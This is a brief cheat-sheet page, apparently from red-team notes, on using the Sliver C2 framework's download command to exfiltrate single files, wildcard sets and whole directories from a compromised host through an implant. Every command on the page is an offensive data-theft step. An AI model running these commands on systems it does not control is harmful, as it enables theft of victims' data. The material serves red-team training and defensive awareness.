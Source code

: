 # Sliver

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #command-and-control #T1041 #sliver

## Download Files

Download single file.

```
sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/
```

Download multiple files using wildcard.

```
sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/
```

Download multiple files in a directory recursively.

```
sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/
```

Download the whole directory. It'll compress into a tarball archive file (`.tar`).

```
sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/
```

---
## References

- [MITRE T1041: Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)